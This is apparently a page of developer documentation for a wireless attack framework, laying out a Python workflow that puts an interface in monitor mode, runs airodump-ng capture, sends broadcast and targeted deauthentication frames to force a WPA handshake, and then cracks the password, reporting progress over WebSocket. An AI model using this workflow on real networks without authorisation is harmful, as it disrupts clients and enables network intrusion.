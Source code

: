 **Benefits:**
- ✅ Code reusability across attack types
- ✅ Consistent interface management
- ✅ Standardized logging and error handling
- ✅ Common thread management patterns
- ✅ Unified cleanup procedures

### **2. Complete Handshake Attack Workflow**

```python
async def start_attack(self):
    # 1. Monitor mode setup (inherited from BaseAttack)
    if not self.set_monitor_mode():
        return False
    
    # 2. Channel configuration (inherited from BaseAttack)
    if not self.set_channel(int(self.channel)):
        return False
    
    # 3. Client discovery
    self.discover_clients()
    
    # 4. Capture worker (airodump-ng)
    capture_thread = threading.Thread(target=self.capture_worker)
    self.add_thread(capture_thread)
    
    # 5. Deauth workers (broadcast + targeted)
    broadcast_thread = threading.Thread(target=self.deauth_worker, args=("ff:ff:ff:ff:ff:ff",))
    self.add_thread(broadcast_thread)
    
    # 6. Progress monitoring and status updates
    while self.running:
        await self.send_status_update('stats_update', self.get_current_stats())
```

**Workflow Stages:**
1. **10%** - Monitor mode setup
2. **15%** - Channel configuration  
3. **20%** - Client discovery started
4. **30%** - Capture process started
5. **40%** - Broadcast deauth active
6. **50%** - Targeted deauth for discovered clients
7. **60%** - Attack running, monitoring for handshake
8. **70%** - Handshake captured, starting cracking
9. **80%** - Password cracking in progress
10. **100%** - Attack completed

### **3. Enhanced Async & Status Updates**

```python
# WebSocket communication with detailed status
async def send_status_update(self, message_type: str, data: Dict[str, Any]):
    message = {
        'type': message_type,
        'timestamp': datetime.now().isoformat(),
        'attack_type': self.attack_type,
        'data': data
    }
    await self.websocket.send_text(json.dumps(message))

# Real-time progress tracking
await self.send_status_update('progress', {
    'progress': 40, 
    'message': 'Broadcast deauth started'
})
```